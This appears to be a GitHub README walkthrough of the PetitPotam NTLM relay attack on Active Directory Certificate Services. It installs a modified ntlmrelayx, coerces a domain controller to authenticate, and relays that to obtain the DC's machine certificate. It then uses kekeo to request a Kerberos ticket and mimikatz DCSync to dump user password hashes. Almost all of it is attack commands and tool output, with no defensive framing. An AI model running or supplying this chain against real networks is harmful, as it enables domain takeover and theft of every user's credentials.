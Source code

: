 install special ntlmrelayx 

	mkdir dev  
	cd dev  
	git clone https://github.com/ExAndroidDev/impacket.git  
	cd impacket  
	git switch ntlmrelayx-adcs-attack  
	sudo python3 ./setup.py install
	
Start ntlmrelayx server
You need to detect cert server ip

	┌──(kali㉿kali)-[~/Desktop/petitpotam/impacket/examples]
	└─$ sudo python3 ntlmrelayx.py -debug -smb2support --target http://<cert server>/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
	Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

	[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20210815.200803.5fd22878-py3.9.egg/impacket
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client SMTP loaded..
	[*] Protocol Client SMB loaded..
	[*] Protocol Client DCSYNC loaded..
	[+] Protocol Attack DCSYNC loaded..
	[+] Protocol Attack LDAP loaded..
	[+] Protocol Attack LDAPS loaded..
	[+] Protocol Attack MSSQL loaded..
	[+] Protocol Attack IMAP loaded..
	[+] Protocol Attack IMAPS loaded..
	[+] Protocol Attack RPC loaded..
	[+] Protocol Attack HTTP loaded..
	[+] Protocol Attack HTTPS loaded..
	[+] Protocol Attack SMB loaded..
	[*] Running in relay mode to single host
	[*] Setting up SMB Server

	[*] Setting up HTTP Server
	[*] Setting up WCF Server
	[*] Servers started, waiting for connections
	
	
	
initiate Petitpotam attack


	┌──(kali㉿kali)-[~/Desktop/petitpotam/PetitPotam]
	└─$ python3 PetitPotam.py <listen server> <dc ip>                                                                                                       


				  ___            _        _      _        ___            _                     
				 | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
				 |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
				_|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
			  _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
			  "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

				  PoC to elicit machine account authentication via some MS-EFSRPC functions
										  by topotam (@topotam77)

						 Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



	[-] Connecting to ncacn_np:<dc ip>[\PIPE\lsarpc]
	[+] Connected!
	[+] Binding to c68....7e
	[+] Successfully bound!
	[-] Sending EfsRpcOpenFileRaw!
	.
	.



check back ntlmrelayx server


	[*] Setting up HTTP Server
	[*] Setting up WCF Server
	[*] Servers started, waiting for connections
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] Generating CSR...
	[*] CSR generated!
	[*] Getting certificate...
	[*] GOT CERTIFICATE!
	[*] Base64 certificate of user DC$: 
	MIIShQIBAzCCEk8GCSqGSIb3....CAggAgIIIIGPwCalx5il1r7k/....cCgQIixsKtYEYD3M=
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] Skipping user DC$ since attack was already performed
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	[*] HTTP server returned error code 200, treating as a successful login
	[*] Authenticating against http://<Cert server> as <domain name>/DC$ SUCCEED
	[*] Skipping user DC$ since attack was already performed
	[*] SMBD-Thread-4: Connection from <domain name>/DC$@<DC ip> controlled, attacking target http://<Cert server>
	
	
	
Start kekeo and craft a ticket

	kekeo\x64> .\kekeo.exe

	  ___ _    kekeo 2.1 (x64) built on Jul 23 2021 20:56:45
	 /   ('>-  "A La Vie, A L'Amour"
	 | K  |    /* * *
	 \____/     Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
												 with 10 modules * * */

	kekeo # base64
	isBase64InterceptInput  is false
	isBase64InterceptOutput is false

	kekeo # base64 /input:on
	isBase64InterceptInput  is true
	isBase64InterceptOutput is false

	kekeo # tgt::ask /pfx:MIIShQIBAzCCEk8GCSq...QcCgQIixsKtYEYD3M= /user:DC$ /domain:<domain name> /ptt
	Realm        : <domain name>(<domain name>)
	User         : <DC>$ (<DC>$)
	CName        : <DC>$        [KRB_NT_PRINCIPAL (1)]
	SName        : krbtgt/<domain name>  [KRB_NT_SRV_INST (2)]
	Need PAC     : Yes
	Auth mode    : RSA
	[kdc] name: ..... (auto)
	[kdc] addr: ... (auto)
	 > krbtgt/<Domain name> : OK!

	kekeo #
	

Get user hash with mimikatz

	x64> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # lsadump::dcsync /domain:<domain> /user:<user>